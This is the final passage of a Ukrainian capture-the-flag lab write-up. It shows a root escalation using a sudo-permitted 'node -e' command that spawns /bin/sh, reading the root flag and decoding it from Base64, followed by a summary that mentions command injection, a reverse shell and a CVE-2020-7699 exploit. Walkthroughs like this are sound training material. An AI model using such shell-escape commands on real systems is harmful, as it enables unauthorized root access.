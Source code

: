 Тепер можна закрити попереднє з'єднання на порту 8020.

---

### **Крок 8: Вихід з обмеженого середовища та отримання root**

Створюємо повноцінну інтерактивну оболонку:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Тепер отримуємо доступ з правами **root**:

```bash
# whoami
root
```

---

### **Крок 9: Читання фінального флагу**

Переходимо до директорії `/root/` та читаємо фінальний флаг:

```bash
# cat /root/root.txt
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```

Декодуємо флаг з **Base64**:

```bash
# echo "YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK" | base64 -d
apopse siopi mazeuoume oneira
```

✅ **Фінальний флаг отримано! CTF завершено!** 🎯

---

## **Висновок**

**Що було зроблено?**

✔️ Виявлено IP-адресу цільової машини та проскановано порти  
✔️ Досліджено веб-додаток та виявлено підозрілий запит  
✔️ Проведено маніпуляцію User-Agent для обходу перевірки  
✔️ Виявлено та використано Command Injection через Base58-декодування  
✔️ Отримано Reverse Shell з правами www-data  
✔️ Досліджено файлову систему та виявлено вразливий модуль express-fileupload  
✔️ Використано експлойт для CVE-2020-7699 (Prototype Pollution)  
✔️ Отримано root-доступ та прочитано фінальний флаг

## **Цей CTF є прикладом навчального завдання** для відпрацювання навичок **етичного хакінгу**, тестування на проникнення та ескалації привілеїв через реальні CVE-вразливості.
